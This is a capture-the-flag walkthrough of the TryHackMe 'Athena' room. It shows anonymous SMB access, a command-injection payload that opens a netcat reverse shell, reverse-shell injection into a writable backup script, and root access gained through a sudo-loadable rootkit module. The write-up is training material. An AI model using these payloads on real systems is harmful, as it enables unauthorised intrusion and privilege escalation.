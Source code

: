 # Athena - TryHackMe 

![](https://tryhackme-images.s3.amazonaws.com/room-icons/53d3c28c1af197142685ceb238d5ce3c.png)

## Nmap Scan

```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63 
80/tcp  open  http         syn-ack ttl 63 
139/tcp open  netbios-ssn  syn-ack ttl 63 
445/tcp open  microsoft-ds syn-ack ttl 63 
``` 

## Web Pwn

* On port 80 => there is a web page. 

* SMB has anonymous login there will be a file containg a hidden direcotory in the web page. `/myrouterpanel`

```bash
> smbclient \\\\$VMIP\\public 
Password for [WORKGROUP\trevohack]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 06:24:43 2023
  ..                                  D        0  Mon Apr 17 06:24:05 2023
  msg_for_administrator.txt           N      253  Mon Apr 17 00:29:44 2023

		19947120 blocks of size 1024. 9693196 blocks available
smb: \> get msg_for_administrator.txt
getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \>
``` 

* `/myrouterpanel` is vulnerable to RCE `$(nc <lhost> <lport> -e /bin/bash)` will get a reverse shell as `www-data`

## Priv Escalate to Athena

* From there, a `backup.sh` file is available at `/usr/share/backup` which runs recursively if you look at `pspy`.

* `ls -la` shows this

```bash
-rwxr-xr-x   1 www-data athena     310 Sep 16 19:01 backup.sh
``` 

* Injecting a reverse shell may give a shell as `athena`

```bash
> nc -nvlp 9090
Listening on 0.0.0.0 9090
Connection received on 10.10.236.162 41090 
bash: no job control in this shell
athena@routerpanel:/$ whoami
athena
```

## Priv Escalate to root

* On athena `sudo -l -l` reveals that `/mnt/.../secret/venom.ko` can be loaded to the kernel


```bash
athena@routerpanel:/$ sudo -l -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User athena may run the following commands on routerpanel:
Sudoers entry:
    RunAsUsers: root
    Options: !authenticate
    Commands:
	/usr/sbin/insmod /mnt/.../secret/venom.ko
``` 

* USE Ghidra: to reverse the venom.ko file 

![](https://i.postimg.cc/RFR6NDRs/reverse.png)

![](https://i.postimg.cc/qRjqkCJW/reversing.png)

* After reversing, the `give_root` function may work like this `kill -57 <pid>`, later on the `id` command reveals that you have root access.

# Thank You!! 
